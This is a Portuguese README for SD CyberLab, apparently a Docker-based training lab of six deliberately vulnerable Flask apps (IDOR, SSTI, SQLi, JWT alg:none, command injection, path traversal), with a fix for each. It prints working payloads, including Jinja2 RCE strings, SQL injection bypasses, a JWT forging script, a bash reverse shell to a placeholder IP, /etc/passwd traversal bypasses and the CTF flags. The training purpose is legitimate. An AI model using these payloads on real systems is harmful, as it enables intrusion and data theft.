







<div align="center">

# 🛡️ SD CyberLab

**Ambiente de treinamento em segurança ofensiva — containers Docker com aplicações intencionalmente vulneráveis**

[](https://docs.docker.com/compose/)
[](https://python.org)
[](https://flask.palletsprojects.com/)
[](LICENSE)

> ⚠️ **USO EXCLUSIVO EM AMBIENTE ISOLADO.**  
> Nunca exponha estas aplicações na internet ou em redes de produção.

</div>

---

## 📋 Sobre o projeto

O **SD CyberLab** é uma coleção de aplicações web intencionalmente vulneráveis, pensada para treinar técnicas de segurança ofensiva em ambiente controlado. Cada lab isola uma única vulnerabilidade com contexto temático, payload de exemplo e flag para validação.

Ideal para:
- Treino pessoal de pentest web
- Capacitação de equipes de TI
- Preparação para CTFs
- Demonstrações em aula

---

## 🗺️ Labs disponíveis

| # | Lab | Porta | Vulnerabilidade | Dificuldade |
|---|-----|-------|-----------------|-------------|
| 1 | 🏢 IDOR — Portal RH | 5001 | Insecure Direct Object Reference | 🟢 Fácil |
| 2 | 🔥 SSTI — Portal de Boas-vindas | 5002 | Server-Side Template Injection (Jinja2) | 🟡 Médio |
| 3 | 🗄️ SQLi — Sistema de Login | 5003 | SQL Injection (bypass + UNION) | 🟢 Fácil |
| 4 | 🔑 JWT — Auth Service | 5004 | JWT Algorithm Confusion (alg:none) | 🟡 Médio |
| 5 | 🌐 CMDi — Network Tool | 5005 | OS Command Injection | 🟢 Fácil |
| 6 | 📁 Path Traversal — File Server | 5006 | Path Traversal / LFI | 🟢 Fácil |

---

## 🚀 Início rápido

### Pré-requisitos

- [Docker](https://docs.docker.com/get-docker/) 20+
- [Docker Compose](https://docs.docker.com/compose/) v2+

### Subir todos os labs

```bash
git clone https://github.com/saraivadigital/sd-cyberlab.git
cd sd-cyberlab
docker compose up -d --build
```

### Verificar status

```bash
docker compose ps
```

### Parar tudo

```bash
docker compose down
```

---

## 🧩 Lab 1 — IDOR (`http://localhost:5001`)



**Conceito:** O sistema usa IDs previsíveis na URL sem verificar se o usuário autenticado é dono do recurso.

<details>
<summary>📖 Ver detalhes e payloads</summary>

### Exploração



**Enumeração de usuários:**
```bash
curl http://localhost:5001/api/users
```

**Flag 1 — Perfil do admin (você está logado como id=2):**
```bash
curl http://localhost:5001/api/user/1/profile
# → campo "bio" contém SDC_Flag{1D0R_H0r1z0nt4l_Pr1v1l3g3_3sc4l4t10n}
```

### Como corrigir
```python
# Verificar ownership antes de retornar:
if user_id != session.get("user_id"):
    return jsonify({"error": "Acesso negado"}), 403
```

</details>

---

## 🔥 Lab 2 — SSTI (`http://localhost:5002`)



**Conceito:** O input do usuário é renderizado como template Jinja2 no servidor sem sanitização.

<details>
<summary>📖 Ver detalhes e payloads</summary>

### Exploração progressiva

**Passo 1 — Confirmar SSTI:**
```
http://localhost:5002/?name={{7*7}}
→ "Olá, 49!"
```

**Passo 2 — Vazar configuração:**
```
http://localhost:5002/?name={{config.items()}}
```

**Passo 3 — RCE direto:**
```
http://localhost:5002/?name={{lipsum.__globals__['os'].popen('id').read()}}
```

**Passo 4 — Capturar a flag:**
```
http://localhost:5002/?name={{lipsum.__globals__['os'].popen('cat /tmp/flag.txt').read()}}
```

**Flag:** `SDC_Flag{SST1_J1nj42_RC3_4ch13v3d}`

### Como corrigir
```python
# Nunca renderize input do usuário como template:
# ❌  render_template_string(f"Olá, {name}!")
# ✅  render_template("hello.html", name=name)
```

</details>

---

## 🗄️ Lab 3 — SQLi (`http://localhost:5003`)



**Conceito:** Queries SQL construídas por concatenação de string — sem prepared statements.

<details>
<summary>📖 Ver detalhes e payloads</summary>

### Exploração

**Bypass de login:**
```
Usuário: admin'--
Senha:   qualquer_coisa
```

**UNION-based após login — exfiltrar tabela secrets:**
```
http://localhost:5003/search?q=' UNION SELECT 1,note,3,4 FROM secrets--
```

**Dump de tabelas:**
```
/search?q=' UNION SELECT 1,name,3,4 FROM sqlite_master WHERE type='table'--
```

**Flag:** `SDC_Flag{SQL1_Un10n_3xf1l_S3cr3ts}`

### Como corrigir
```python
# Sempre usar prepared statements:
cur.execute("SELECT * FROM users WHERE username=? AND password=?", (username, password))
```

</details>

---

## 🔑 Lab 4 — JWT (`http://localhost:5004`)



**Conceito:** A aplicação aceita tokens JWT com `alg:none`, pulando a verificação de assinatura.

<details>
<summary>📖 Ver detalhes e payloads</summary>

### Exploração

**Passo 1 — Pegar token de usuário:**
```bash
curl http://localhost:5004/api/token/user
```

**Passo 2 — Forjar token com alg:none:**
```python
import base64, json

header  = base64.urlsafe_b64encode(json.dumps({"alg":"none","typ":"JWT"}).encode()).rstrip(b"=").decode()
payload = base64.urlsafe_b64encode(json.dumps({"user":"chewbacana","role":"admin"}).encode()).rstrip(b"=").decode()
token   = f"{header}.{payload}."
print(token)
```

**Passo 3 — Usar o token forjado:**
```bash
TOKEN="<token_gerado_acima>"
curl -H "Authorization: Bearer $TOKEN" http://localhost:5004/api/admin
```

**Flag:** `SDC_Flag{JWT_4lg_N0n3_Byp4ss}`

### Como corrigir
```python
# Sempre especificar o algoritmo e nunca aceitar "none":
jwt.decode(token, SECRET, algorithms=["HS256"])
```

</details>

---

## 🌐 Lab 5 — CMDi (`http://localhost:5005`)



**Conceito:** Input do usuário concatenado em um comando shell com `shell=True`.

<details>
<summary>📖 Ver detalhes e payloads</summary>

### Exploração

**Confirmação:**
```
Host: 127.0.0.1; id
```

**Capturar a flag:**
```
Host: 127.0.0.1 && cat /tmp/flag.txt
Host: ; cat /tmp/flag.txt
Host: 127.0.0.1 | cat /tmp/flag.txt
```

**Reverse shell:**
```bash
Host: 127.0.0.1; bash -i >& /dev/tcp/SEU_IP/4444 0>&1
# Listener: nc -lvnp 4444
```

**Flag:** `SDC_Flag{CMD1_0S_C0mm4nd_1nj3ct10n}`

### Como corrigir
```python
import re
if not re.match(r'^[\d.]+$', host):
    return "Host inválido", 400
subprocess.run(["ping", "-c", "2", host], capture_output=True)  # sem shell=True
```

</details>

---

## 📁 Lab 6 — Path Traversal (`http://localhost:5006`)



**Conceito:** Caminhos construídos com `os.path.join` sem normalização ou validação do resultado.

<details>
<summary>📖 Ver detalhes e payloads</summary>

### Exploração

**Arquivos públicos:**
```
http://localhost:5006/files?name=readme.txt
http://localhost:5006/files?name=missoes.txt
```

**Path traversal:**
```
http://localhost:5006/files?name=../secret.txt       ← flag 🎯
http://localhost:5006/files?name=../config.ini
http://localhost:5006/files?name=../../etc/passwd
```

**Bypass de filtros:**
```
/files?name=....//....//etc/passwd
/files?name=%2e%2e%2f%2e%2e%2fetc/passwd
/files?name=..%252f..%252fetc/passwd
```

**Flag:** `SDC_Flag{P4th_Tr4v3rs4l_LF1_Succ3ss}`

### Como corrigir
```python
real = os.path.realpath(os.path.join(BASE_DIR, name))
if not real.startswith(os.path.realpath(BASE_DIR)):
    abort(403)
```

</details>

---

## 🛠️ Comandos úteis

```bash
# Logs de um container específico
docker compose logs -f ssti

# Shell dentro de um container
docker compose exec cmdi bash

# Reconstruir apenas um lab após edição
docker compose up -d --build ssti

# Parar e remover volumes
docker compose down -v
```

---

## 📚 Referências

- [OWASP Top 10](https://owasp.org/Top10/)
- [PortSwigger Web Security Academy](https://portswigger.net/web-security)
- [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)
- [HackTricks](https://book.hacktricks.xyz/)

---

## 📄 Licença

MIT © [Saraiva Digital](https://github.com/saraivadigital) — SD CyberLab

> Este projeto é exclusivamente para fins educacionais em ambientes isolados.
